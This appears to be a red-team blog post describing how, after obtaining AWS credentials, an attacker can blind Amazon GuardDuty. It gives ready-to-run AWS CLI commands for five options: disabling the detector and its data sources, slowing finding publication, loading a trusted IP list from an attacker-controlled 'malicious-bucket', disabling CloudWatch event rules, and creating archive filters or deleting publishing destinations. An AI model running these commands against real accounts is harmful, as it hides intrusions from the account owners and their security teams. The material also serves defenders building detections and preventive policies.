 ```yaml
---
layout: post
title: AWS Guard-OffDuty
---
```


Let's assume that we have found and  successfullyvalidated some AWS credenhas during an engagement, it might be a good idea to modify threat detection services like GuardDuty. To reduce the likelihood of triggering an alert we therefore need to modify the GuardDuty configuration to stay cloaked. Modifying, deleting or modifying key attributes of GuardDuty might have a less likely chance to raise alerts. The actions we can do depend on the compromised permissions available, the GuardDuty architecture and the presence of higher level controls like [Service Control Policies](https://docs.aws.amazon.com/organizations/latest/userguide/orgs_manage_policies_scps.html). 

<p align="center">
<img width=300 src="/images/mr-bean-guard.gif">
</p>


GuardDuty itself uses a delegated admin or invite model but features like detector configurations and IP Trust lists are usually centrally managed. That pivot point can be used, but usually can only be modified in the GuardDuty administrator account. If this pattern isn't used, these features can be modified in the account that GuardDuty is running in. 

Let's check our options:

## Option1 - Patching the Detector
We can modify an existing GuardDuty detector in the account with the goal to remove log sources or lessen its effectiveness.

Configuration changes may include a combination of:

- Disabling the detector  
- Removing Kubernetes and S3 as Data Sources. This removes all available [S3 Protection](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-s3.html) and/or [Kubernetes alerts](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-kubernetes.html)  
- Increasing the event update frequency to 6 hours instead of the casual 15 minutes. This give some more time to dig around in the account and stay cloaked. To manage this we have to check the Required permissions to execute:

* `guardduty:ListDetectors`
* `guardduty:UpdateDetector`

Tiny cheat sheet of the CLI commands:

```bash
# Disabling the detector
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --no-enable 

# Removing s3 as a log source
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --data-sources S3Logs={Enable=false}

# Increase finding update time to 6 hours
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --finding-publishing-frequency SIX_HOURS
```

---
## Option2 - Patching Trusted IP Lists
We could create or update GuardDuty's [Trusted IP list](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_upload-lists.html) - including their own IP on the list. Any IPs in a trusted IP list will not have any Cloudtrail or VPC flow log alerts raised against them.

*DNS findings are exempt from the Trusted IP list.*

**Required permissions to execute:**

* `guardduty:ListDetectors`
* `guardduty:ListIPSet`
* `iam:PutRolePolicy`
* `guardduty:CreateIPSet (can be used to create a new list)`
* `guardduty:UpdateIPSet (update an existing list)`

Depending on the level of stealth required the file can be uploaded to an S3 bucket:
- Either in the target account
- or an account controlled by the attacker

Tiny cheat sheet of the CLI commands:

```bash
aws guardduty update-ip-set \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --ip-set-id 24adjigdk34290840348exampleiplist \
    --location https://malicious-bucket.s3-us-east-1.amazonaws.com/customiplist.csv \
    --activate
```

## Option 3 - Modify Cloudwatch events rule
GuardDuty populates its findings to Cloudwatch-Events every 5 minutes. Modifying the Event pattern or Targets for an event may reduce GuardDuty's ability to alert and trigger auto-remediation of a findings. Especially where the remediation is triggered in a member account as GuardDuty administrator protections do not extend to the Cloudwatch events in one of the member accounts.

But be aware that:

> In a delegated or invitational admin GuardDuty architecture, cloudwatch events will still be created in the admin account.

**Required permissions to execute:**

* `gevent:ListRules`
* `gevent:ListTargetsByRule`
* `gevent:PutRule`
* `gevent:RemoveTargets`

Tiny cheat sheet of the CLI commands:
```bash
# Disable GuardDuty Cloudwatch Event
aws events put-rule --name guardduty-event \
--event-pattern "{\"source\":[\"aws.guardduty\"]}" \
--state DISABLED

# Modify Event Pattern
aws events put-rule --name guardduty-event \
--event-pattern '{"source": ["aws.somethingthatdoesntexist"]}'

# Remove Event Targets
aws events remove-targets --name guardduty-event \
--ids "GuardDutyTarget"
```

---
## Option 4 - Create Supression Rules
Newly create GuardDuty findings can be automatically archived via [Suppression Rules](https://docs.aws.amazon.com/guardduty/latest/ug/findings_suppression-rule.html). We can also use [filters](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_filter-findings.html) to automatically archive findings before they are fresh generated. 

**Required permissions to execute:**
* `guardduty:CreateFilter`

Tiny cheat sheet of the CLI commands:

```bash
aws  guardduty create-filter --action ARCHIVE \
                             --detector-id 123456 \
                             --name fancyfiltername \
                             --finding-criteria file://criteria.json
```

Filters can be created using the [CreateFilter API](https://docs.aws.amazon.com/guardduty/latest/APIReference/API_CreateFilter.html).

---
## Option 5 - Delete Publishing Destination
We could disable alerting simply by [deleting the destination](https://docs.aws.amazon.com/cli/latest/reference/guardduty/delete-publishing-destination.html) of alerts.

**Required permissions to execute:**

* `guardduty:DeletePublishingDestination`

Tiny cheat sheet of the CLI commands:

```bash
aws guardduty delete-publishing-destination --detector-id abc123 --destination-id def456
```
